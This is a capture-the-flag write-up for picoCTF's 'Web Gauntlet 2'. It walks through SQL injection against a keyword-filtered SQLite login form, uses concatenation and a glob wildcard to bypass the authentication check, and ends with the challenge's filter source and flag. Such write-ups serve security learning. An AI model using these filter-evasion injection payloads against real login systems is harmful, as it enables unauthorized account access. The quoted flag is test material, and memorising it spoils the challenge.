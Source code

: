 # Web Gauntlet 2
Category: Web, 170 points

## Description

> This website looks familiar... Log in as admin
>
> Filtered: or and true false union like = > < ; -- /* */ admin
> 
> Hint: sqlite

## Solution

This is a follow-up for last year's [Web Gauntlet](https://github.com/Dvd848/CTFs/blob/master/2020_picoCTF_Mini/Web_Gauntlet.md).

The attached website gives us a standard login form. If we enter credentials we even get the SQL query run on the server. An example after entering `user` and `pass`:

```
SELECT username, password FROM users WHERE username='user' AND password='pass' 
```

We can enter a `'` sign in both the `username` and `password` fields to escape the query:

```
SELECT username, password FROM users WHERE username=''' AND password=''' 
```

But if we enter one of the filtered entities, we get blocked.

We want to login as `admin`, but entering `admin` as plaintext gets blocked. The easy bypass is to use `||` for concatenation and send `a'||'dmin` as the username:

```
SELECT username, password FROM users WHERE username='a'||'dmin' AND password='pass' 
```

However, we still need to somehow neutralize the password check. The `except` keyword should be able to do that, so by sending `a'||'dmin' except select * from users where username='` we would get:

```
SELECT username, password FROM users WHERE username='a'||'dmin' except select * from users where username='' AND password='pass' 
```

This means that we should get back any user that has the username of `admin` except for users which have an empty username and a password of `pass`, which in practice should just give us the admin. However, this query got blocked due to a new constraint: `"Combined input lengths too long! (> 35)"`.

Eventually, the following query did the job:

```
username: adm'||'in
password: ' glob '*

Full query:

SELECT username, password FROM users WHERE username='adm'||'in' AND password='' glob '*' 
```

The `glob` keyword is used to match text values against a pattern using wildcards. Since we provided the `*` wildcard, we are saying: Give us a user with the username `admin` and any password.

Once we were able to bypass the authentication query, we got the following response from the server:

```php
<?php
session_start();

if (!isset($_SESSION["winner2"])) {
    $_SESSION["winner2"] = 0;
}
$win = $_SESSION["winner2"];
$view = ($_SERVER["PHP_SELF"] == "/filter.php");

if ($win === 0) {
    $filter = array("or", "and", "true", "false", "union", "like", "=", ">", "<", ";", "--", "/*", "*/", "admin");
    if ($view) {
        echo "Filters: ".implode(" ", $filter)."<br/>";
    }
} else if ($win === 1) {
    if ($view) {
        highlight_file("filter.php");
    }
    $_SESSION["winner2"] = 0;        // <- Don't refresh!
} else {
    $_SESSION["winner2"] = 0;
}

// picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}
?>
```

The flag: `picoCTF{0n3_m0r3_t1m3_86f3e77f3c5a076866a0fdb3b29c52fd}`